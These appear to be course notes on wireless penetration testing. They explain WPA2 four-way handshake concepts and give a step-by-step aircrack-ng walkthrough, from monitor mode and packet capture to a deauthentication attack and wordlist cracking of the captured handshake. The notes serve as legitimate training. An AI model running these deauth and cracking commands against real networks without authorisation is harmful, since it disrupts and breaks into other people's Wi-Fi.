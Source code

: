 # Wireless Hacking 101

## Wireless Penetration Testing

[https://academy.tcm-sec.com/courses/enrolled/1152300](https://academy.tcm-sec.com/courses/enrolled/1152300)

### Overview

#### Assessment of Wireless Network

* WPA2 PSK
* WPA2 Enterprise

#### Activities Performed

* Evaluating strength of PSK
* Reviewing nearby networks
* Assessing guest networks
* Checking network access

#### Tools Being Used

* Wireless Card
* Router
* Laptop

#### The Hacking Process (WPA2 PSK)

* Place - Place wireless card into monitor mode
* Discover - Discover information about network: Channel, BSSID
* Select - Select network and capture data
* Perform - Perform deauth attack
* Capture - Capture WPA handshake
* Attempt - Attempt to crack the handshake

### Exploitation Walkthrough

```bash
# First connect VM to wireless card: Player, REmovable Devices, <Card Name>, Connect
iwconfig  # Check if wlan0 exists
airmon-ng check kill  # Allow us to check for any process that are running and kill them that will interfere
airmon-ng start wlan0
iwconfig  # Check for wlan0mon
airodump-ng wlan0mon  # Check for devices around us
# Identify the device (BSSID) to attack and the channel (CH) and do next steps
airodump -c <CH> --bssid <BSSID> -w capture.txt wlan0mon
# Wait for data to be captured, specifically the WPA handshake
# Can also try to deauth to force people to log back in parallel
aireplay-ng -0 1 -a <BSSID> -c <STATION> wlan0mon
# Can now view the capture files and then attempt to crack the handshake
aircrack-ng -w wordlist.txt -b <BSSID> capture.txt.cap
```

## Wireless Hacking 101

[https://tryhackme.com/room/wifihacking101](https://tryhackme.com/room/wifihacking101)

### Intro to WPA

#### Key Terms

* SSID: The network "name" that you see when you try and connect
* ESSID: An SSID that _may_ apply to multiple access points, eg a company office, normally forming a bigger network. For Aircrack they normally refer to the network you're attacking.
* BSSID: An access point MAC (hardware) address
* WPA2-PSK: Wifi networks that you connect to by providing a password that's the same for everyone
* WPA2-EAP: Wifi networks that you authenticate to by providing a username and password, which is sent to a RADIUS server.
* RADIUS: A server for authenticating clients, not just for wifi.

The core of WPA(2) authentication is the 4 way handshake.

Most home WiFi networks, and many others, use WPA(2) personal. If you have to log in with a password and it's not WEP, then it's WPA(2) personal. WPA2-EAP uses RADIUS servers to authenticate, so if you have to enter a username and password in order to connect then it's probably that.

Previously, the WEP (Wired Equivalent Privacy) standard was used. This was shown to be insecure and can be broken by capturing enough packets to guess the key via statistical methods.

The 4 way handshake allows the client and the AP to both prove that they know they key, without telling each other. WPA and WPA2 use practically the same authentication method, so the attacks on both are the same.

The keys for WPA are derived from both the ESSID and the password for the network. The ESSID acts as a salt, making dictionary attacks more difficult. It means that for a given password, the key will still vary for each access point. This means that unless you precompute the dictionary for just that access point/MAC address, you will need to try passwords until you find the correct one.

### Capturing Packets to Attack

Using the Aircrack-ng suite, we can start attacking a wifi network. This will walk you through attacking a network yourself, assuming you have a monitor mode enabled NIC.

#### Aircrack-ng Suite

* aircrack-ng
* airdecap-ng
* airmon-ng
* aireplay-ng
* airodump-ng
* airtun-ng
* packetforge-ng
* airbase-ng
* airdecloak-ng
* airolib-ng
* airserv-ng
* buddy-ng
* ivstools
* easside-ng
* tkiptun-ng
* wesside-ng

We'll want to use aircrack-ng, airodump-ng and airmon-ng to attack WPA networks.

The aircrack tools come by default with Kali, or can be installed with a package manager or from [https://www.aircrack-ng.org/](https://www.aircrack-ng.org/)

I suggest creating a hotspot on a phone/tablet, picking a weak password (From rockyou.txt) and following along with every stage. To generate 5 random passwords from rockyou, you can use this command on Kali: `head /usr/share/wordlists/rockyou.txt -n 10000 | shuf -n 5 -`

You will need a monitor mode NIC in order to capture the 4 way handshake. Many wireless cards support this, but it's important to note that not all of them do.

Injection mode helps, as you can use it to deauth a client in order to force a reconnect which forces the handshake to occur again. Otherwise, you have to wait for a client to connect normally.

#### Example Crack

* Useful Information
  * BSSID: 02:1A:11:FF:D9:BD
  * ESSID: 'James Honor 8'

`kali@kali:~/Desktop$ aircrack-ng -b 02:1A:11:FF:D9:BD -w /usr/share/wordlists/rockyou.txt NinjaJc01-01.cap`
